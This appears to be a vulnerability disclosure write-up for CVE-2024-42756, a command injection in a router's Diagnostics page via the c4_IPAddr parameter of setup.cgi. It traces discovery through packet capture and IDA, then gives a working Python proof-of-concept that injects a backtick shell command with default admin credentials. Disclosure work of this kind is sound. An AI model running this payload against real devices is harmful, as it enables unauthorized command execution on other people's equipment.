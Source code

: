 CVE-2024-42756

## Command injection exists on the Diagnostics page of web
## ![1721830818130.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830823860-f5b57545-c9d4-455a-9471-c041145deb90.png#averageHue=%23fbfafa&clientId=u2f508ae5-ad4e-4&from=paste&height=667&id=u6ad3a6b3&originHeight=817&originWidth=1959&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=178745&status=done&style=none&taskId=u2dc9df19-997d-4ab1-8f0f-59567da8a1d&title=&width=1599.85)Parameters discovered by capturing packets are passed as c4_IPAddr
![1721830893722.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830898585-93b51d16-5c9b-43cd-8c62-e6760b1bfc30.png#averageHue=%23f6f5f4&clientId=u2f508ae5-ad4e-4&from=paste&height=481&id=u9a9dc098&originHeight=589&originWidth=1511&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=180889&status=done&style=none&taskId=u191977f1-3747-4a61-bd28-5b554321602&title=&width=1233.9833333333333)
## grep -r "c4_IPAddr"
## The string c4_IPAddr was found in the binary file setup.cgi
## ![1721830988983.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830993358-8ed1a10d-12ff-4ab6-980c-67520114154f.png#averageHue=%232f0b25&clientId=u2f508ae5-ad4e-4&from=paste&height=147&id=uc384f1dc&originHeight=180&originWidth=989&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=54506&status=done&style=none&taskId=u7fd9f142-063c-4b91-9664-aa55c9febd3&title=&width=807.6833333333333)c4_IPAddr found in IDA
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831173391-424fccd7-17bf-4aa3-af43-c74c3ee326a7.png#averageHue=%23f6f4f2&clientId=u2f508ae5-ad4e-4&from=paste&height=81&id=u127d49b3&originHeight=99&originWidth=492&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=7500&status=done&style=none&taskId=uadf28c54-c85f-487b-8f09-f0d4a58bc1a&title=&width=401.8)![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831178917-d7207407-09fe-433a-8801-17e72bd999bb.png#averageHue=%23e1b872&clientId=u2f508ae5-ad4e-4&from=paste&height=245&id=u7b48214b&originHeight=300&originWidth=1074&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=68847&status=done&style=none&taskId=ue6fadf4e-694e-480d-8a4d-bafb5175091&title=&width=877.1)Locate the ping_test function
## Found only filtered;
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831709526-010cc455-1465-4b99-9aaf-6c41f38ce04e.png#averageHue=%23fbf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=357&id=u048c6c59&originHeight=437&originWidth=723&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=45688&status=done&style=none&taskId=uee7d6df5-a244-4082-8537-6bba71a4186&title=&width=590.4499999999999)
## Construct exp
## ![1721831347990.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831355775-8653b8c6-35bb-40e5-a7df-b4247154883b.png#averageHue=%23faf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=865&id=u13a39b91&originHeight=1059&originWidth=945&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=135712&status=done&style=none&taskId=u53475e1f-a6b3-4cab-8158-c5002861fbb&title=&width=771.75)Description Directory nop was successfully written
## ![1721831375064.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831382760-a39f9648-4617-4181-bc1e-547f21f62775.png#averageHue=%232d0923&clientId=u2f508ae5-ad4e-4&from=paste&height=185&id=u11c37f75&originHeight=227&originWidth=670&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=29346&status=done&style=none&taskId=u701b1eff-7b45-4d37-820e-d11399feb68&title=&width=547.1666666666666)
exp
import requests

burp0_url = "[http://192.168.0.1:80/setup.cgi"](http://192.168.0.1:80/setup.cgi")
burp0_headers = {"Cache-Control": "max-age=0", "Authorization": "Basic YWRtaW46cGFzc3dvcmQ=", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.0.1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "[http://192.168.0.1/diag.htm&todo=cfg_init",](http://192.168.0.1/diag.htm&todo=cfg_init",) "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_data = {"IPAddr1": "192", "IPAddr2": "168", "IPAddr3": "0", "IPAddr4": "2", "ping": "Ping", "todo": "ping_test", "this_file": "diag.htm", "next_file": "diagping.htm", "c4_IPAddr": "192.168.0.2`echo 2 > /tmp/nop`"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

CVE-2024-42756
